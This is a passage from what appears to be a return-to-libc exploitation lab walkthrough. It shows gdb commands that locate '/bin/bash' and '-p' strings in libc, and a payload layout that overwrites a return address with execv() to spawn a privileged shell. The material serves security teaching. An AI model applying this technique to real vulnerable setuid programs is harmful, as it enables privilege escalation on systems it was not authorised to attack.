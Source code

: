 2. **Address of `/bin/bash`**
   Use `gdb` to locate the string `/bin/bash` in the libc library:
   ```gdb
   find __libc_start_main,+9999999,"/bin/bash"
   ```
   Example output:
   ```
   0xf7f52a0b
   ```
   The address of `/bin/bash` is `0xf7f52a0b`.

3. **Address of `-p`**
   Similarly, locate the string `-p` in the libc library:
   ```gdb
   find __libc_start_main,+9999999,"-p"
   ```
   Example output:
   ```
   0xf7f52b0c
   ```
   The address of `-p` is `0xf7f52b0c`.

4. **Address of the Stack Buffer**
   The vulnerable program prints the address of the stack buffer. Run the program and note the printed address. For example:
   ```
   Buffer address: 0xffffd0a0
   ```
   The stack buffer starts at `0xffffd0a0`.

---

#### Step 2: Construct the Payload

The payload must:
1. Overwrite the return address to point to `execv()`.
2. Place the arguments for `execv()` on the stack:
   - `pathname`: Address of `/bin/bash`.
   - `argv[]`: Address of the argument array on the stack.

##### 2.1 Layout of the Payload
The payload will look like this:
```
[ Padding ] [ execv() address ] [ Return address (dummy) ] [ pathname ] [ argv[] ]
[ argv[0] ] [ argv[1] ] [ argv[2] ]
```

##### 2.2 Calculate Offsets
Use `gdb` to determine the offset to the return address. For example, if the return address is at offset `112`, the payload will start with `112` bytes of padding.

##### 2.3 Construct the Argument Array
The `argv[]` array must be constructed on the stack:
- `argv[0]`: Address of `/bin/bash` (`0xf7f52a0b`).
- `argv[1]`: Address of `-p` (`0xf7f52b0c`).
- `argv[2]`: `NULL` (4 bytes of zero).
